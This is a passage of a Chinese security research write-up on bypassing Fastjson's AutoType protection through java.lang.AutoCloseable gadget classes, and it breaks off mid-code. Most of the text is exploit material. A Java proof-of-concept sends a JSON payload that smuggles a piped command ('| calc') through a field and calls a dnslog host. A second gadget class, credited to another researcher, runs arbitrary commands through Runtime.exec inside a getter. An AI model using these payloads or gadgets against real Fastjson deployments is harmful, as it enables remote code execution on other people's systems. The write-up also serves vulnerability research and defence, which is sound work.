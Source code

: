 载荷构造：

```
package org.heptagram.fastjson;

import com.alibaba.fastjson.JSONObject;

public class AutoCloseableMain {
    public static void main(String[] args) {
        String payload ="{\n" +
                "  \"@type\":\"java.lang.AutoCloseable\",\n" +
                "  \"@type\": \"org.heptagram.fastjson.ViaAutoCloseable\",\n" +
                "  \"domain\": \" wme8bg.dnslog.cn| calc\"\n" +
                "}";
        JSONObject.parseObject(payload);
    }
}


```

执行结果如下：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210422113001-057210ae-a31b-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210422113001-057210ae-a31b-1.jpg)  
在这里我们查看以下 AutoCloseable 类的继承关系，可以看到通过 AutoCloseable 来 Bypass AutoType 我们找寻 Gadget 的范围则变得更加宽广，常用的流操作、文件操作、socket 等等都继承自 AutoCloseable：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210422113042-1dbee704-a31b-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210422113042-1dbee704-a31b-1.jpg)  
在查阅相关资料的时候看到 Y4er 师傅在其文章中描述到 FastJson 在黑名单中新增的 java.lang.Runnable、java.lang.Readable 类也可以用于 Bypass AutoType，下面是 Y4er 师傅提供的载荷：  
A、Runnable：

```
package org.heptagram.fastjson;

import java.io.IOException;

public class ExecRunnable implements AutoCloseable {
    private EvalRunnable eval;

    public EvalRunnable getEval() {
        return eval;
    }

    public void setEval(EvalRunnable eval) {
        this.eval = eval;
    }

    @Override
    public void close() throws Exception {

    }
}

class EvalRunnable implements Runnable {
    private String cmd;

    public String getCmd() {
        System.out.println("EvalRunnable getCmd() "+cmd);
        try {
            Runtime.getRuntime().exec(new String[]{"cmd","/c",cmd});
        } catch (IOException e) {
            e.printStackTrace();
        }
        return cmd;
```